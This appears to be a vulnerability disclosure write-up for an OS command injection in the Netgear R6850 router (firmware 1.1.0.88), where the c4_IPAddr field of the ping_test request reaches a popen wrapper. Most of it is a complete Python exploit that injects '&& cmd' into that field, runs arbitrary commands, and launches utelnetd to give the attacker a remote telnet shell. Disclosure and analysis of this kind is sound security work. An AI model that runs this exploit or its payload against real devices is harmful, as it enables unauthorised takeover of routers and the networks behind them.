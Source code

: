 # Netgear-R6850 V1.1.0.88 Command Injection(ping_test)

![image-20240319114656029](D:\typora 图片\image-20240319114656029.png)

## Overview

```
* Type: Command Injection
* Supplier: Netgear (https://www.netgear.com/)
* Product: R6850 — AC2000 Smart WiFi Router
* Affect version: (lastest) 1.1.0.88
* Firmware download:https://www.downloads.netgear.com/files/GDC/R6850/R6850_V1.1.0.88.zip
```

## Vulnerability Description

When deal with  `ping_test` request,`c4_IPAddr` parameter is vulnerable to OS command injection.

### POC

The effect of executing the "ls" command

![image-20240319133131323](D:\typora 图片\image-20240319133131323.png)

```python
import requests
import re
import threading
import telnetlib
import time
import argparse

def cmd_exec(target, cmd, silent = False):
    r = requests.post(
        f'http://{target}/setup.cgi?id=0&sp=1337', {
        'todo' : 'ping_test',
        'c4_IPAddr' : f'127.0.0.1 && {cmd}',
        'next_file' : 'diagping.htm'
    })
    content = r.content.decode()
    ping_log = re.findall(
        r'<textarea name="ping_result" .+ readonly >(.+)</textarea>',
        content,
        re.DOTALL
    )
    _, cmd_content = ping_log[0]
    if not silent:
        print(cmd_content.strip())
def yyyy_telnetd(target):
    '''Spawn the telnet server.'''
    cmd_exec(target, '/bin/utelnetd', silent = True)

def main():
    parser = argparse.ArgumentParser('Longue vue')
    parser.add_argument('--shell', action = 'store_true', default = False)
    parser.add_argument('--cmd')
    parser.add_argument('--target', default = 'routerlogin.com')
    args = parser.parse_args()
    if not args.shell and not args.cmd:
        parser.print_help()
        return
    if args.cmd is not None:
        if '-' in args.cmd or ';' in args.cmd:
            print('Both "-" and ";" are disallowed by the command injection bug, use the shell instead.')
            return
        print(f'Executing {repr(args.cmd)} against {args.target}..')
        cmd_exec(args.target, args.cmd)
    if args.shell:
        print(f'Getting a shell against {args.target}..')
        telnetd = threading.Thread(target = yyyy_telnetd, args = (args.target, ))
        telnetd.start()
        print('Waiting a few seconds before connecting..')
        time.sleep(5)
        print('Dropping in the shell, exit with ctrl+c')
        try:
            with telnetlib.Telnet(args.target) as tn:
                tn.mt_interact()
        except:
            pass
        print('Cleaning up..')
        cmd_exec(args.target, '/bin/kill $(/bin/pidof utelnetd)', silent = True)
        print('Joining..')
        telnetd.join()
    print('Done'.center(60, '-'))
main()
```

## Analysis

In the main function of `setup. cgi`, all requests with `setup. cgi` in the URL will be processed by the setup_main function

![image-20240319134651718](D:\typora 图片\image-20240319134651718.png)

It should be noted that a filter (`FindForbidValue`) was applied at the beginning of the function, filtering out some characters and specific functions

![image-20240319134758233](D:\typora 图片\image-20240319134758233.png)

Then go to the `CallActionByName` function, where you will find the characters in the `ActionTab` field

![image-20240319134907840](D:\typora 图片\image-20240319134907840.png)

![image-20240319135037610](D:\typora 图片\image-20240319135037610.png)

In `ActionTab`, you can see the action function corresponding to ping_test(sub_184B0). Here, the `c4-IPAddr`parameter is concatenated into the `myPipe` function using the `snprintf` function (which is actually a self encapsulated `popen`)

![image-20240319135340017](D:\typora 图片\image-20240319135340017.png)